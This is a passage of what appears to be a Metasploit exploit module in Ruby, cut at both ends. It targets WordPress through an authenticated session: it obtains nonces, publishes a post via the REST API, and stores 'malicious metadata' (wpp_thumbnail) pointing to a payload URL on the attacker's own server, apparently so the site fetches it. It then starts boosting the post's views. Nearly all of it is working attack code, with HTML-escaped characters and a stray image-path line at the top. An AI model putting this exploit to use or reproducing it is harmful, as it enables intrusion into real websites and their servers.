 /},"post":{"id":(?&lt;post_id>\d*)/ =~ res.body     if ajax_nonce.nil?       print_error('missing ajax nonce field, attempting to re-enable. if this fails, you may need to change the interface to enable this.  See https://www.hostpapa.com/knowledgebase/add-custom-meta-boxes-wordpress-posts/. Or check (while writing a post) Options > Preferences > Panels > Additional > Custom Fields.')       /name="toggle-custom-fields-nonce" value="(?&lt;custom_nonce>[^"]*)/ =~ res.body       ajax_nonce = enable_custom_fields(cookie, custom_nonce, post_id)     end     unless ajax_nonce.nil?       vprint_status("ajax nonce: #{ajax_nonce}")     end     unless wp_nonce.nil?       vprint_status("wp nonce: #{wp_nonce}")     end     unless post_id.nil?       vprint_status("Created Post: #{post_id}")     end     fail_with(Failure::UnexpectedReply, 'Unable to retrieve nonces and/or new post id') unless ajax_nonce &amp;&amp; wp_nonce &amp;&amp; post_id      # publish new post     vprint_status("Writing content to Post: #{post_id}")     # this is very different from the EDB POC, I kept getting 200 to the home page with their example, so this is based off what the UI submits     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'index.php'),       'method' => 'POST',       'cookie' => cookie,       'keep_cookies' => 'true',       'ctype' => 'application/json',       'accept' => 'application/json',       'vars_get' => {         '_locale' => 'user',         'rest_route' => normalize_uri(target_uri.path, 'wp', 'v2', 'posts', post_id)       },       'data' => {         'id' => post_id,         'title' => Rex::Text.rand_text_alphanumeric(20..30),         'content' => "&lt;!-- wp:paragraph -->\n&lt;p>#{Rex::Text.rand_text_alphanumeric(100..200)}&lt;/p>\n&lt;!-- /wp:paragraph -->",         'status' => 'publish'       }.to_json,       'headers' => {         'X-WP-Nonce' => wp_nonce,         'X-HTTP-Method-Override' => 'PUT'       }     )      fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200     fail_with(Failure::UnexpectedReply, 'Post failed to publish') unless res.body.include? '"status":"publish"'     return post_id, ajax_nonce, wp_nonce   end    def add_meta(cookie, post_id, ajax_nonce, payload_name)     payload_url = "http://#{datastore['SRVHOSTNAME']}:#{datastore['SRVPORT']}/#{payload_name}"     vprint_status("Adding malicious metadata for redirect to #{payload_url}")     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'wp-admin', 'admin-ajax.php'),       'method' => 'POST',       'cookie' => cookie,       'keep_cookies' => 'true',       'vars_post' => {         '_ajax_nonce' => 0,         'action' => 'add-meta',         'metakeyselect' => 'wpp_thumbnail',         'metakeyinput' => '',         'metavalue' => payload_url,         '_ajax_nonce-add-meta' => ajax_nonce,         'post_id' => post_id       }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200     fail_with(Failure::UnexpectedReply, 'Failed to update metadata') unless res.body.include? "&lt;tr id='meta-"   end    def boost_post(cookie, post_id, wp_nonce, post_count)     # redirect as needed     res = send_request_cgi(       'uri' => normalize_uri(target_uri.path, 'index.php'),       'keep_cookies' => 'true',       'cookie' => cookie,       'vars_get' => { 'page_id' => post_id }     )     fail_with(Failure::Unreachable, 'Site not responding') unless res     fail_with(Failure::UnexpectedReply,